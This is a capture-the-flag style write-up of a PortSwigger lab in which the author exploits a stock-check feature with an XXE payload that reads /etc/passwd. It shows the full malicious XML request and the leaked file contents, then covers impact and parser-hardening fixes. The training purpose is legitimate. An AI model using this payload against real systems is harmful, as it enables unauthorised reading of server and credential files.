


# How I Used a Stock Check to Steal /etc/passwd Over XML

## Lab Information

**Lab Name:** Exploiting XXE using external entities to retrieve files

**Category:** XML External Entity (XXE)

**Difficulty:** Apprentice

**Status:** Solved

---

## What I Was Aiming For

I was working through an XXE lab on the PortSwigger Web Security Academy. The application had a stock check feature that sent XML data to the server. My goal was to abuse that XML parser to make it read and return the contents of `/etc/passwd` from the underlying server.

---

## How I Found the Vulnerability

I noticed that when I clicked **Check stock** on a product page, the browser fired off an XML request. That immediately made me suspicious. If the server was processing raw XML from users, I wanted to know if external entities were enabled. If they were, I could trick the parser into reading local files for me.

---

## What I Did

### Step 1: Intercept the Stock Check Request

1. I opened a product page.
2. I clicked **Check stock**.
3. I intercepted the request in Burp Suite and sent it to Repeater.

The original request looked like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

---

### Step 2: Inject the XXE Payload

I modified the XML to define an external entity pointing to `/etc/passwd` and referenced that entity inside the `productId` field.

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Then I sent the modified request to the server.

### Screenshot


---

### Step 3: Watch the File Disclosure Unfold

The server processed my external entity and replaced `&xxe;` with the contents of `/etc/passwd`.

The response came back looking like this:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

That confirmed the application had just handed me the server's user file.

### Screenshot



---

### Step 4: Verify the Lab Was Solved

Once the file contents showed up in the response, the lab automatically marked itself as solved.

### Screenshot



---

## Why This Matters

This was a textbook XXE, but in a real environment the damage could be far worse. Here is what I kept in mind:

* Disclosure of sensitive configuration files
* Exposure of application source code
* Leakage of credentials and secrets
* Information gathering for further attacks
* Potential remote compromise of the target environment

---

## Why This Happened

The XML parser was configured to process external entities supplied by user input.

Because external entity resolution was enabled, I could reference local files and force the application to include their contents in server responses.

---

## How I Would Fix It

If I were the one patching this, here is what I would do:

1. Disable DTD processing whenever possible.
2. Disable external entity resolution in XML parsers.
3. Use secure XML parsing libraries and configurations.
4. Validate and sanitize XML input before processing.
5. Implement the principle of least privilege for application accounts.

---

## What I Learned

This lab reinforced how dangerous XML parsers can be when they are not locked down. By defining an external entity that referenced a local file and slipping it into a normal-looking stock check request, I pulled sensitive information straight off the server. Proper XML parser hardening and disabling external entity resolution are essential to prevent this type of attack.
